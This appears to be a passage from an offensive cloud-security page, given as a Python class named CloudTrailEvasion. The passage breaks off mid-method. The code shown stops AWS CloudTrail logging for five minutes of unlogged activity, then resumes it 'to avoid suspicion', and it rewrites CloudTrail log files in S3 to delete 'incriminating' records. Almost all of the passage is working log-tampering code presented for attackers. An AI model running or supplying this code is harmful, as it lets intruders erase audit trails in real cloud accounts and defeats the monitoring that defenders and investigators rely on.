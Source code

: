 ### Log Tampering and Evasion

```python
class CloudTrailEvasion:
    def __init__(self, session):
        self.cloudtrail = session.client('cloudtrail')
        self.s3 = session.client('s3')

    def disable_logging_temporarily(self, trail_name):
        """Temporarily disable CloudTrail logging"""
        try:
            # Stop logging
            self.cloudtrail.stop_logging(Name=trail_name)
            print(f"Logging stopped for trail: {trail_name}")

            # Wait for malicious activities
            import time
            time.sleep(300)  # 5 minutes of unlogged activity

            # Re-enable logging to avoid suspicion
            self.cloudtrail.start_logging(Name=trail_name)
            print(f"Logging resumed for trail: {trail_name}")

        except Exception as e:
            print(f"Trail manipulation failed: {e}")

    def manipulate_log_files(self, trail_bucket, log_prefix):
        """Manipulate CloudTrail log files directly"""
        try:
            # List existing log files
            response = self.s3.list_objects_v2(
                Bucket=trail_bucket,
                Prefix=log_prefix
            )

            for obj in response.get('Contents', []):
                log_key = obj['Key']

                # Download log file
                log_obj = self.s3.get_object(Bucket=trail_bucket, Key=log_key)
                log_content = json.loads(log_obj['Body'].read())

                # Remove incriminating events
                filtered_records = []
                for record in log_content['Records']:
                    # Skip events that could reveal malicious activity
                    if not self.is_incriminating_event(record):
                        filtered_records.append(record)

                # Upload modified log file
                log_content['Records'] = filtered_records
                self.s3.put_object(
                    Bucket=trail_bucket,
                    Key=log_key,
                    Body=json.dumps(log_content)
                )

                print(f"Modified log file: {log_key}")

        except Exception as e:
            print(f"Log manipulation failed: {e}")

    def is_incriminating_event(self, record):
```